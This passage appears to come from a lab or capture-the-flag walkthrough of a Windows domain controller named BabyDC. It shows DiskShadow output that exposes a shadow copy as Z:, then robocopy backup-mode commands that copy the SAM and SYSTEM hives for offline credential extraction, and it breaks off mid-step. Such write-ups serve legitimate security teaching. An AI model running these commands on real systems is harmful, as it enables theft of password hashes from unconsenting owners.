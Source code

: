 - A shadow copy of the `C:` drive was successfully created.
- It was exposed and mounted as **Z:\**.

```output
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  BABYDC,  9/8/2025 10:58:47 PM

-> set context persistent nowriters
-> add volume c: alias temp
-> create
Alias temp for shadow ID {1ecb5bc1-8755-4d1d-b87e-29754ec7a5c2} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {ac57b85b-4e05-4775-a263-e865e94888db} set as environment variable.

Querying all shadow copies with the shadow copy set ID {ac57b85b-4e05-4775-a263-e865e94888db}

        * Shadow copy ID = {1ecb5bc1-8755-4d1d-b87e-29754ec7a5c2}               %temp%
                - Shadow copy set: {ac57b85b-4e05-4775-a263-e865e94888db}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{1b77e212-0000-0000-0000-100000000000}\ [C:\]
                - Creation time: 9/8/2025 10:58:48 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: BabyDC.baby.vl
                - Service machine: BabyDC.baby.vl
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %temp% z:
-> %temp% = {1ecb5bc1-8755-4d1d-b87e-29754ec7a5c2}
The shadow copy was successfully exposed as z:\.
```


## Step 12: Extracting Registry Hives

With the shadow copy mounted as **Z:\**, we copy out the critical registry hives for offline credential extraction.

### Copy the SAM hive

```bash
robocopy /b Z:\Windows\System32\Config C:\temp SAM
```

Result:
```output
New File   65536   SAM
```

Copy the SYSTEM hive

```bash
robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM
```
